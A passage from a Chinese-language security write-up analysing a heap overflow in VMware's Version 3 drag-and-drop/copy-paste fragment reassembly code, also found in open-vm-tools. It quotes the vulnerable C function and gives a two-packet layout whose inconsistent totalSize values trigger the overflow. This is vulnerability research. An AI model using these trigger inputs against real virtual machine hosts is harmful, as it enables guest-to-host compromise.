 有了以上的知识，我决定看看Version 3中的DnD/CP功能中是不是也存在类似的问题。令人惊讶的是，几乎相同的漏洞存在于Version 3的代码中（这个漏洞最初通过逆向分析来发现，但是我们后来意识到v3的代码也在open-vm-tools的git仓库中）：

```
Bool  DnD_TransportBufAppendPacket(DnDTransportBuffer *buf,          // IN/OUT  
                             DnDTransportPacketHeader *packet, // IN
                             size_t packetSize)                // IN`{`
   ASSERT(buf);
   ASSERT(packetSize == (packet-&gt;payloadSize + DND_TRANSPORT_PACKET_HEADER_SIZE) &amp;&amp;
          packetSize &lt;= DND_MAX_TRANSPORT_PACKET_SIZE &amp;&amp;
          (packet-&gt;payloadSize + packet-&gt;offset) &lt;= packet-&gt;totalSize &amp;&amp;
          packet-&gt;totalSize &lt;= DNDMSG_MAX_ARGSZ);
   if (packetSize != (packet-&gt;payloadSize + DND_TRANSPORT_PACKET_HEADER_SIZE) ||
       packetSize &gt; DND_MAX_TRANSPORT_PACKET_SIZE ||
       (packet-&gt;payloadSize + packet-&gt;offset) &gt; packet-&gt;totalSize || //[1]
       packet-&gt;totalSize &gt; DNDMSG_MAX_ARGSZ) `{`
      goto error;
   `}`
   /*    * If seqNum does not match, it means either this is the first packet, or there    * is a timeout in another side. Reset the buffer in all cases.    */
   if (buf-&gt;seqNum != packet-&gt;seqNum) `{`
      DnD_TransportBufReset(buf);
   `}`
   if (!buf-&gt;buffer) `{`
      ASSERT(!packet-&gt;offset);
      if (packet-&gt;offset) `{`
         goto error;
      `}`
      buf-&gt;buffer = Util_SafeMalloc(packet-&gt;totalSize);
      buf-&gt;totalSize = packet-&gt;totalSize;
      buf-&gt;seqNum = packet-&gt;seqNum;
      buf-&gt;offset = 0;
   `}`
   if (buf-&gt;offset != packet-&gt;offset) `{`
      goto error;
   `}`
   memcpy(buf-&gt;buffer + buf-&gt;offset,
          packet-&gt;payload,
          packet-&gt;payloadSize);
   buf-&gt;offset += packet-&gt;payloadSize;
   return TRUE;error:  
   DnD_TransportBufReset(buf);
   return FALSE;`}`
```

Version 3的DnD/CP在分片重组时，上面的函数会被调用。此处我们可以在[1]处看到与之前相同的情形，代码依然假设后续分片中的totalSize会和第一个分片一致。因此这个漏洞可以用和之前相同的方法触发：

```
packet 1`{`  
 ...
 totalSize = 0x100
 payloadOffset = 0
 payloadSize = 0x50
 seqNum = 0x41414141
 ...
 #...0x50 bytes...#`}`packet 2`{`  
 ...
 totalSize = 0x1000
 payloadOffset = 0x50
 payloadSize = 0x100
 seqNum = 0x41414141
 ...
 #...0x100 bytes...#`}`
```
